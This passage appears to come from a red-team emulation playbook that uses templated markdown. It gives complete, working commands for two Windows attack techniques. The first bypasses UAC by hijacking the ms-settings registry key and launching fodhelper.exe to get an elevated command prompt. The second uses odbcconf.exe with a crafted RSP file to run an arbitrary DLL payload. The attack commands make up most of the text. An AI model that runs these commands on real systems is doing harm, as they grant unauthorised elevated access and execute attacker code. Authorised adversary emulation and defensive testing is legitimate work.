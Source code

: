 Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup

If the registry existed prior to execution, restore its value:

```
cmd> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v {{ initial_command }} /f
```

Otherwise, delete the key:

```
cmd> reg delete HKCU\Software\Classes\ms-settings\Shell\Open\command /f
```

### References

- https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/
- https://4pfsec.com/offensive-windows-fodhelper-exe/

## Odbcconf - Execution using odbcconf and rsp file

The builtin odbcconf.exe binary can be abused to execute arbitrary code via a DLL payload

Execute a DLL payload by using a crafted RSP file

### Prerequisites

- DLL payload
- RSP payload
  - The contents of the RSP file should be:
    ```
    REGSVR {{ dll }}
    ```

### Guidance

The RSP file can be executed using:

```
odbcconf -f {{ rsp }}
```
